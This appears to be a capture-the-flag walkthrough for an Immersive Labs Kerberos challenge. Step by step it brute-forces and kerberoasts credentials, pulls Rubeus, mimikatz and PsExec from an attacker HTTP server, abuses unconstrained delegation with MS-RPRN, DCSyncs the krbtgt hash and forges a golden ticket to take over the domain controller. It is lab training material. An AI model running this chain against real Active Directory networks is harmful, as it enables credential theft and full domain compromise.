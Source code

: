 ```yaml
---
date: 2025-04-24
categories: [CTF, ImmersiveLabs]
title: "IML - Kerberos: Ep.13 – Demonstrate your skills"
tags: ['hashcat', 'john the ripper', 'kerberos', 'mimikatz', 'powershell', 'privilege escalation', 'python', 'rce', 'windows', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Kerberos Ep.13 – Demonstrate your skills - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.13 – Demonstrate your skills


![image1](../resources/eb9a0af945024067bf3743669956becf.png)

# ![image2](../resources/5fbcc1d087bc4a43ae0da894139f234d.png)

```bash
./kerbrute bruteuser -d krbtown.local --dc 10.102.11.232 /usr/share/wordlists/krbpasswords.txt s.villanelle

```

![image3](../resources/82229e4cd1ab46b191c60f29b82143d4.png)

- Got valid credentials


![image4](../resources/0852f5bdc6fb4d92bfd3eee703dc469b.png)

- Use credentials to rdp:

```bash
xfreerdp /v:10.102.30.15 /u:s.villanelle /d:krbtown.local +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```
- Token: 8dae10


![image5](../resources/ed950f2a96b9467a920841bf851e36d2.png)

- Upload Rubeus to workstation-01

```bash
python3 -m http.server 8080

```

![image6](../resources/903a4b8eef6f40eeaa2eb24239e9302e.png)

```bash
curl http://10.102.30.234:8080/Rubeus.exe > Rubeus.exe

```

![image7](../resources/8acfa91590514a4c8a3c438b7b075882.png)

- Open admin PS - Run rubeus.exe
.\Rubeus.exe kerberoast /user:mssql_svc /outfile:hashes.kerberoast


![image8](../resources/9a3dc2dcdfc541a2a87082f889a2c5d7.png)


![image9](../resources/0da917ac1c294f5bbdb1e9fc2379ee82.png)

- Copy and save hash to Kali (hash.txt)

- Use john (no hashcat):
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=krb5tgs

- Password: **blink182!**

- RDP to wks-02:

```bash
xfreerdp /v:10.102.52.164 /u:mssql_svc /p:blink182! /d:krbtown.local +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```

![image10](../resources/378f60dbf30941bc8d466ee1fdfcad9c.png)

- Set up python server in Tools:

```bash
python -m http.server

```
- Use the native Powershell command to curl (this doesn't corrupt the file):

```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/PowerView-Dev.ps1','PowerView-Dev.ps1')

```
- Enumerating for unconstrained delegation:

```bash
Get-DomainComputer -Unconstrained -Properties dnshostname

```

![image11](../resources/92776ade960f4f968a9e5e71889c5e69.png)

- We are already on wks-02

- Set up python server and download Rubeus, MS-RPRN, PsExec64 and mimikatz:

```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/Rubeus.exe','Rubeus.exe')

(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/MS-RPRN.exe','C:\Users\mssql_svc\MS-RPRN.exe')

(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/PsExec64.exe','C:\Users\mssql_svc\PsExec64.exe')

(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/mimikatz.exe','C:\Users\mssql_svc\mimikatz.exe')

```
- Open an elevated command prompt and monitor for TGT **(Open in CMD, not PS)**:

```bash
.\Rubeus.exe monitor /interval:1 /nowrap

```
- To force a connection to our compromised host Workstation-02, you can use the MS-RPRN tool by running it on an elevated PowerShell prompt:

```bash
.\MS-RPRN.exe \\DC01.krbtown.local \\Workstation-02.krbtown.local

```

![image12](../resources/fad254bf7daa4721b32200b4b2781661.png)

If no wrap wasn't used:
- Copy the Base64 ticket and paste into Kali (ticket.txt):
**Remove empty lines and white spaces from the Base64 ticket before passing it through Rubeus:**

```bash
python3 -c 'f=open("ticket.txt").read();import re;print(re.sub(r"\[\n\t\s\]\*", "", f))'
```

- Copy the output and paste into the command (on Windows):

```powershell
[IO.File]::WriteAllBytes("C:\Users\mssql_svc\DC.kirbi", [Convert]::FromBase64String("Base64 Ticket"))

```
(Change the directory to where Rubeus is)

Convert from Base64 and saves it in **DC.kirbi**:

- Load the ticket into memory:

```bash
.\Rubeus.exe ptt /ticket:DC.kirbi

```

or

```bash
.\Rubeus.exe ptt /ticket:<base64>

```
or with

```bash
.\mimikatz.exe

kerberos::ptt DC.kirbi

```

![image13](../resources/0fddd00966e6450cb4af1dd908a16818.png)

- Check with klist

![image14](../resources/141340df50624dac9a60844f53a91e3c.png)

- Run:

```bash
.\mimikatz.exe
lsadump::dcsync /domain:krbtown.local /user:krbtgt

```

![image15](../resources/22f73d9f3f8041a6be366e90a1d1ce23.png)

- Copy the NTLM hash and the SID:


![image16](../resources/792d1d115c864d9197ef14e2899a13db.png)


![image17](../resources/c01c6683d0ab4946a1e2ca140849eb58.png)

**\*\* The SID is the highlighted text above - Not including the last part (-502)  
That part is specific to that user account**

- Run mimikatz
- Create Kerberos Golden ticket with the information gathered above:

```bash
kerberos::golden /domain:krbtown.local /sid:S-1-5-21-839606329-3182976252-758991142 /krbtgt:9a60db81a985dd1b22b3d34fa598fe19 /user:Administrator

```
The **/user:** is a username we make up ourselves.

This can be anything but Administrator is less conspicuous


![image18](../resources/0fc9917b07324daf9090b6ffdd1a0071.png)


![image19](../resources/7ec819c264434e379b257c9b860180fa.png)

- Run .\mimikatz.exe again with the following command:

```bash
kerberos::ptt ticket.kirbi

```

![image20](../resources/291e0785ed02449c8b925c0a54227448.png)

- Check with klist

![image21](../resources/fe5cbc4a600244ff896d897f651af9e8.png)

- Now that we have a Golden Ticket in memory (TGT) for administrator on the DC, you can use PsExec to log in to the DC:

```bash
.\PsExec64.exe \\dc01.krbtown.local cmd

```
**\*\*Need to use the DNS name to force the use of Kerberos**


![image22](../resources/cd77966db48f440abd1687b5fd9a8c6c.png)
